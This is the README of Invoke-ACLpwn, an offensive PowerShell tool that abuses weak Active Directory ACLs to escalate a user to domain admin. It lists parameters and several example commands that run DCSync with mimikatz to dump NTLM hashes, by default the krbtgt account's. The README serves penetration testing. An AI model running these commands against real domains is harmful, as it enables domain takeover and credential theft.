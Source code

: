 # Invoke-ACLpwn
![License: GPLv2](https://img.shields.io/pypi/l/mitm6.svg)

Invoke-ACLpwn is a tool that automates the discovery and pwnage of ACLs in 
Active Directory that are unsafe configured. 

Invoke-ACLpwn is designed to run with integrated credentials as well as 
with specified network credentials. The script works by creating an export 
of all ACLs in the domain with SharpHound as well as the group membership of 
the user account that the tool is running under. If the user does not already 
have writeDACL permissions on the domain object, the tool will enumerate all 
ACEs of the ACL of the domain. Every identity in an ACE has an ACL of its own, 
which is added to the enumeration queue. If the identity is a group and the 
group has members, every group member is added to the enumeration queue as well.

It may take some time to calculate and parse every ACL, but could end up with
a "chain" that leads to domain administrative privilges in the target domain.


## Dependencies and installation
No installation is needed, however, in order to run Invoke-ACLpwn, a few
depedencies must be met:
* `.NET 3.5` or later
* `sharphound.exe`
* If you want to run DCsync, you need `mimikatz.exe` as well.

## Usage

Parameters:
```
    Required parameters:        
        SharpHoundLocation: location of sharphound.exe    

    Optional parameters:
        Domain            : FQDN of the target domain
        Username          : Username to authenticate with
        Password          : Password to authenticate with
        WhatIf            : Displays only the action the script intends to do. No exploitation.
                            Access as well as potential access will increase if the user account is added
                            to security groups, so the result of this switch may look incomplete.
        NoSecCleanup      : By default, the user will be removed from the ACL and the groups that were added during runtime when the script is finished. 
                            Setting this switch will leave that in tact.
        NoDCSync          : Will not run DCSync after all necessary steps have been taken
        userAccountToPwn  : User account to retrieve NTLM hash of. Only single user accounts supported now. Defaults to krbtgt account.
        logToFile         : Switch to write console output to file with the same name as script.
        mimiKatzLocation  : location of mimikatz.exe
```

Please note that specifying the mimikatz location is required unless the 
`-NoDCSync` switch is specified.

Example usage:

```Powershell
    ./Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -NoDCSync
    ./Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -mimiKatzLocation .\mimikatz.exe
    ./Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -mimiKatzLocation .\mimikatz.exe -userAccountToPwn 'Administrator'
    ./Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -mimiKatzLocation .\mimikatz.exe -LogToFile
    ./Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -mimiKatzLocation .\mimikatz.exe -NoSecCleanup
    ./Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -mimiKatzLocation .\mimikatz.exe -Username 'testuser' -Domain 'xenoflux.local' -Password 'Welcome01!'
```

## About restoring ACLs and groupmemberships
If the `-NoSecCleanup` switch is not specified, the script will remove any
permission that was set by the script as well as group memberships. 





